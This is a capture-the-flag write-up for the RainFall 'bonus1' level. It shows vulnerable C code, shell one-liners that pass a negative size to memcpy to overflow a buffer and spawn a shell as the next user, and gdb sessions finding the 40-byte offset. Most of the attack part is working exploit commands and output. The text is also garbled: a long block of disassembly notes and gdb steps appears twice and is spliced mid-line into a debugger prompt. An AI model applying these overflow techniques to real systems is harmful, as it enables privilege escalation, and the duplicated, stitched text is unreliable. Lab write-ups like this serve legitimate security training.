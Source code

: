 BONUS_1:
# 📚 Exploiting bonus1
```
int main(int argc, char **argv) {
    char buffer[40];
    int num = atoi(argv[1]);

    if (num < 10) {
        memcpy(buffer, argv[2], num * 4);

        if (num == 0x574f4c46) {   // "WOLF"
            execl("/bin/sh", "sh", NULL);
        }
        return 0;
    } else {
        return 1;
    }
}
```
```bash
bonus1@RainFall:~$ ./bonus1 -1073741809 $(python -c 'print "A"*56 + "\x82\x84\x04\x08"')
$ whoami
bonus2
$ exit
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
$ whoami
bonus2
$ exit
bonus1@RainFall:~$ ./bonus1 -2147483637 `python -c "print 'a' * 40 + '\x46''\x4c''\x4f''\x57'"`
$ whoami
bonus2
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "B"*40 + "FLOW"')
$ exit
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c 'print "B"*40 + "FLOW"')
$ exit
```


so 9 (the max number that we can try with it) is not enough for overflow.

- We know that memcpy uses size_t (unsigned_int), so we can try with a negative number because it will be interpreted as a positive number whatever happens. So if we exceed the limit of the unsigned_int max we will back to 0.

MAX of unsigned_int = 4294967295

4294967295 / 4 + 1 = 1073741824

- We will break at memcpy and examine our variable.

(gdb) b *0x08048473
Breakpoint 1 at 0x8048473
(gdb) r -1073741824 AAAAAAAAAAAA
Starting program: /home/user/bonus1/bonus1 -1073741824 AAAAAAAAAAAA

Breakpoint 1, 0x08048473 in main ()
(gdb) x/x $esp+0x8
0xbffff278:	0x00000000

- So now we have 0 as a value. now we will try to set 100 as a value.

1073741824 - 25 = 1073741799

(gdb) r -1073741799 AAAAAAAAAAAA
Starting program: /home/user/bonus1/bonus1 -1073741799 AAAAAAAAAAAA

Breakpoint 1, 0x08048473 in main ()
(gdb) x/x $esp+0x8
0xbffff278:	0x00000064 // = 100

- Now we need to find the offset which we can overflow. for that, we will set a breakpoint after memcpy and examine our value.

Starting program: /home/user/bonus1/bonus1 -1073741799 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 2, 0x08048478 in main ()
(gdb) x/x $esp+0x3c
0xbffff25c:	0x62413362

- And we found that offset is 40. so now we need just to write this value (0x574f4c46) after the 40 chars.

40 + 4 = 44 / 4 = 11
1073741824 - 11 = 1073741813

nb = (L/4) - 2^30 

From the disassembly

At 0x0804842a: sub $0x40, %esp → reserves 64 bytes local space.

At 0x0804843d: mov %eax, 0x3c(%esp) → nb is stored at [esp+0x3c].

At 0x08048464: lea 0x14(%esp), %eax → buffer starts at [esp+0x14].

So:

esp+0x14 → buffer[0]
...
esp+0x3b → buffer[39]
esp+0x3c → nb (the integer)


That means nb sits right after 40 bytes of buffer. Classic overflow pattern.

📍 In gdb: how to see them

You already set a breakpoint at 0x08048478 (just after memcpy).
Now you can inspect:

(gdb) run -1073741813 $(python -c "print 'B'*40 + 'FLOW'")


When it stops at breakpoint:

See esp

(gdb) From the disassembly

At 0x0804842a: sub $0x40, %esp → reserves 64 bytes local space.

At 0x0804843d: mov %eax, 0x3c(%esp) → nb is stored at [esp+0x3c].

At 0x08048464: lea 0x14(%esp), %eax → buffer starts at [esp+0x14].

So:

esp+0x14 → buffer[0]
...
esp+0x3b → buffer[39]
esp+0x3c → nb (the integer)


That means nb sits right after 40 bytes of buffer. Classic overflow pattern.

📍 In gdb: how to see them

You already set a breakpoint at 0x08048478 (just after memcpy).
Now you can inspect:

(gdb) run -1073741813 $(python -c "print 'B'*40 + 'FLOW'")


When it stops at breakpoint:

See esp

(gdb) p/x $esp ==> $1 = 0xbffff6b0


Dump buffer region

(gdb) x/48bx $esp+0x14


This shows the 40 Bs followed by "FLOW", because memcpy just copied nb*4 bytes from argv[2] into buffer.

See nb (the integer)

(gdb) x/wx $esp+0x3c


Compare addresses

(gdb) p/x $esp+0x14       # buffer start
(gdb) p/x $esp+0x3c       # nb location
(gdb) p/d ($esp+0x3c) - ($esp+0x14)


You should see a difference of 0x28 = 40 bytes.
That’s exactly why "B"*40 + "FLOW" overwrites nb.


Dump buffer region

(gdb) x/48bx $esp+0x14


This shows the 40 Bs followed by "FLOW", because memcpy just copied nb*4 bytes from argv[2] into buffer.

See nb (the integer)

(gdb) x/wx $esp+0x3c


Compare addresses

(gdb) p/x $esp+0x14       # buffer start
(gdb) p/x $esp+0x3c       # nb location
(gdb) p/d ($esp+0x3c) - ($esp+0x14)


You should see a difference of 0x28 = 40 bytes.
That’s exactly why "B"*40 + "FLOW" overwrites nb.
